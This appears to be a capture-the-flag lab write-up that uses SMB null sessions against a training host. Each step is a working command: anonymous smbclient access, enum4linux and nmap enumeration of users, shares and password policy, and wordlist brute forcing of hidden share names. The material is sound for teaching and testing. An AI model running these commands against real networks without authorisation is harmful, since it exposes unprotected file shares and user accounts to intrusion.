









# Null Session

### Flag 1

Display info about windows machine<br>
-A IP_ADDRESS
```
nmblookup -A demo.ine.local
```

File server active



Same as windows command:
```
nbtstat -A demo.ine.local
```

Enumerate file shares<br>
-L list services<br>
-N no password
```
smbclient -L //demo.ine.local -N
```



Access public share and get flag
```
smbclient //demo.ine.local/public -N
cd .hidden
get flag_1
```



Same as windows command:
```
NET VIEW demo.ine.local
NET USE \\demo.ine.local\$IPC '' /u:''
```

### Flag 2

-A fully enumerate target
```
enum4linux -A demo.ine.local
```

or

-S shares<br>
-U users<br>
-P password policy
```
enum4linux -S demo.ine.local
enum4linux -U demo.ine.local
enum4linux -P demo.ine.local
```
or 

```
nmap demo.ine.local --script=smb-enum-shares
nmap demo.ine.local --script=smb-enum-users
```

Users:



Password policy:



Michael and Raymond don't show up here so they're non-browsable



Access denied for Raymond's share

Access Michael's share and get flag
```
smbclient //demo.ine.local/michael -N
cd dir
cd flag_2
get -
```



### Flag 3

Brute force share enumeration
-s SHARE_LIST 
```
enum4linux -s ~/Desktop/wordlists/100-common-passwords.txt demo.ine.local
```

hidden share "shadow1" found



```
smbclient //demo.ine.local/shadow1 -N
get flag_3 -
```

